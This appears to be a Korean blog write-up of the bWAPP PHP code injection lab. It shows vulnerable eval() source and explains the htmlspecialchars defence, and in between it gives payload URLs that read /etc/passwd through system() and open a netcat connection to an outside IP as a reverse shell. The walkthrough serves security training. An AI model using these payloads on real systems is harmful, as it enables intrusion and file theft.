```yaml
---
layout: single
title: (bWAPP)PHP Code Injection
categories: Web-vuln
tag: [php injection, php, injection, bwapp, bee box, php code injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직

```php
<?php

if(isset($_REQUEST["message"]))
{
    // If the security level is not MEDIUM or HIGH
    if($_COOKIE["security_level"] != "1" && $_COOKIE["security_level"] != "2")
    {
?>
    <p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
<?php
    }
    // If the security level is MEDIUM or HIGH
    else
    {
?>
    <p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>
<?php
    }
}s
?>
```
## Level - Low
![그림 1-1](/assets/image/bwapp/injection/php-code/php-code-injection/image.png)

```php
<p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
```

- 해당 문제에 주어지는 LOW Level 소스코드는 위와 같다.
- eval 함수를 사용하여 사용자의 입력값을 실행하도록 되어 있다.
> eval() 함수란 사용자의 입력값으로 들어온 문자열을 해당 Server Side Script 의 코드로 인식하여 실행하는 함수이다. 이 때 입력값으로 들어온 문자열이 시스템 명령 함수가 존재할 경우 시스템 함수를 실행시킨다.

- 해당 LOW Level 에서 아무런 사용자 입력 값에 대한 유효성 검살를 하지 않고 바로 eval() 함수를 사용한다. 

```
/bWAPP/phpi.php?message=hello
```

![그림 1-2](/assets/image/bwapp/injection/php-code/php-code-injection/image2.png)
- 입력값이 echo 명령과 합쳐지면 페이지에 출력되는것을 확인했다. 

```
/bWAPP/phpi.php?message=system(%27head%20-3%20/etc/passwd%27)
```

- 위와 같이 php system 명령어를 인자로 넘겨줬다.
![그림 1-3](/assets/image/bwapp/injection/php-code/php-code-injection/image3.png)
- system() 명령이 성공적으로 실행된 걸 확인할 수 있다.
- 이를통해 Reverse Shell Connection또한 가능하다.

```
/bWAPP/phpi.php?message=system(%27nc%20192.168.146.137%205252%27)
```

![그림 1-4](/assets/image/bwapp/injection/php-code/php-code-injection/image4.png)
- 성공적으로 Reverse Connection이 맺어진 걸 볼 수 있다.

## Level - Medium & High

```php
<?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?>
```

- LOW Level 을 제외한 단계에서는 htmlspcialchars() 함수를 사용하여 메타문자 입력을 금지하고 있다.

- 이를 통해 LOW Level 과 같이 치명적인 공격은 불가능 하며, php의 경우 phpinfo() 를 통해 사용중인 php 정보 확인과 같은 취약점 판별은 가능하다

```
/bWAPP/phpi.php?message=phpinfo()
```

![그림 1-5](/assets/image/bwapp/injection/php-code/php-code-injection/image5.png)
